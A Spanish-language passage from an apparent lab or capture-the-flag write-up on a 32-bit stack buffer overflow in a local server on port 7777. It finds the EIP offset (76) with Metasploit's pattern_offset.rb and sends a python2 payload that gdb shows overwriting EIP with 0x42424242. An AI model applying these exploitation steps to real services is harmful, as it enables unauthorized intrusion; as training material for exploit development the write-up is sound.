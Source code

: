 ```
   3 0x64413963 None
   4 0x31644130 None
   5 0x41326441 None
   6 0x64413364 None
   7 0x35644134 None
──────────────────────────────────────────────────────────────────────────────
```

Estamos detectando que lo primero la aplicacion es de `32 bits` ya que tiene `EIP` y que identificamos el `EIP` con la siguiente direccion de memoria:

```
0x63413563
```

Por lo que vamos a identificar su `offset`.

### Identificación del Offset

Para determinar el desplazamiento exacto (`offset`) donde ocurre la `sobrescritura`, usamos `pattern_offset.rb`, proporcionando la dirección en hexadecimal obtenida del `EIP`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
```

Info:

```
[*] Exact match at offset 76
```

Esto indica que el `offset` es de `76` bytes.

Por lo que vamos a hacerlo un poco mas automatico con `python2` y enviar comandos de una sola vez, vamos a ver si realmente se llena de `B(42)` el `EIP` de la siguiente forma.

Vamos a poner `run` en el `gdb` para que este a la escucha el `server` y en nuestro `host` pondremos lo siguiente.

```shell
python2 -c 'print b"A"*76 + b"B"*4' | ./sender <IP> 7777
```

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Datos enviados: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Si ahora nos vamos al `gdb` veremos lo siguiente:

```
Starting program: /home/alex/server 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:41490
Datos recibidos: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Procesado: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0x5d
```